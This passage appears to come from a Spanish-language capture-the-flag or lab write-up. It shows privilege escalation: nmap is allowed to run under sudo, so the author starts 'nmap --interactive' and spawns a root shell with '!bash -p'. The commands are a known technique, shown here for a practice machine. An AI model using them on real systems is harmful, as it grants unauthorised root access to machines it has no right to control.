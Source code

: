 ![img](/assets/img/imagenes/2023-10-29_15-37.png)
# Permisos sudo
```python
	/usr/local/bin/nmap
```

### parece que esta maquina tiene instalado nmap y lo podemos ejecutar como sudo. asi que vamos a explotar esta vulnerabilidad de la siguiente manera.

utilizamos el comando:
```python
	nmap --interactive
```


![img](/assets/img/imagenes/2023-10-29_15-42.png)
### este comando de nmap nos permite ejecutar codigo del sistema utilizando la herramienta nmap.

ahora ejecutamos el llamado de una bash con el siguiente codigo:
```python
	!bash -p
```
### WE ARE ROOT
